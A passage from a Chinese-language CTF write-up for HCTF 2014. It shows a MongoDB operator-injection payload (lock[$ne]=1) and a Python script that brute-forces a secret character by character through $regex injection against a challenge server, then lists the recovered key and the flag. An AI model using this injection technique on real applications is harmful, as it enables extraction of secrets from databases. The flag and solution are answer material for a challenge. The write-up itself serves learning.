 	lock[$ne]=1&key=2
	
得到不一样的返回页面，

	Right, but it seemmed the key is not right!!!(╯°□°）╯︵ ┻━┻(╯°□°）╯︵ ┻━┻(╯°□°）╯︵ ┻━┻

从而判断lock变量存在mongodb注入，因lock肯定为一字符串，可以用正则来爆，程序如下：

{% highlight python%}
#!/usr/bin/env python
# coding: utf-8

import requests
import re
import sys


vul_url = 'http://121.40.86.166:23339'


def build_payload(s):
    post_data = {
        'lock[$regex]': r'^%s.*' % s,
        'key': ''
    }
    return post_data


def fuzz_char(s):
    #可加入其他可打印字符
    for c in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
        payload = s + c
        response = requests.post(vul_url, data=build_payload(payload))
        m = re.compile('Right').findall(response.content)

        if m:
            print '[*] Fuzzing: "%s" [ok]' % payload
            fuzz_char(payload)

    print '[*] Found $lock value: "%s"' % payload
    sys.exit()

lock = ''
fuzz_char(lock)

{% endhighlight %}

跑了一会儿，得到最终的lock值：``9cc32bd6``

post数据，得到flag：
	lock=9cc32bd6&key=9cc32bd6
	
flag：``hctf{Middleware_1s_al3o_Vulnerability!}``

##NormalFile（300pt）

下载⽂文件下来 NormalFile.jpg 明显后⾯面有数据,解开之后发现__MACOSX下⾯面的同名图⽚片诡异的⼤：

![img]({{ site.url }}/public/img/ctf/hctf2014/NormalFile_img_1.jpeg)
